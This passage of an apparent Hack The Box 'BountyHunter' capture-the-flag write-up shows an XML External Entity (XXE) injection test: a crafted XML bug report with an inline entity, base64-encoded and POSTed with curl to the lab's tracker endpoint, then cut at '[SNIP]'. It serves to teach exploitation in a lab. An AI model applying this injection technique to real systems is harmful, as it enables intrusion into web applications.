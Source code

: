 ![Firefox - Bounty Report Page](./assets/screenshots/hackthebox_bountyhunter_firefox_bounty_report_page.png)

![Burp Suite - Bounty Report POST](./assets/screenshots/hackthebox_bountyhunter_burpsuite_bounty_report_page.png)

**XML External Entity (XXE) Injection**

```
┌──(nabla㉿kali)-[~]
└─$ vim xxe_payload.txt

<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload "XXE TEST">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>

┌──(nabla㉿kali)-[~]
└─$ payload=$(cat xxe_payload.txt | base64 -w 0)

┌──(nabla㉿kali)-[~]
└─$ curl 'http://bountyhunter.htb/tracker_diRbPr00f314.php' -X POST --data-urlencode "data=$payload"

[SNIP]

```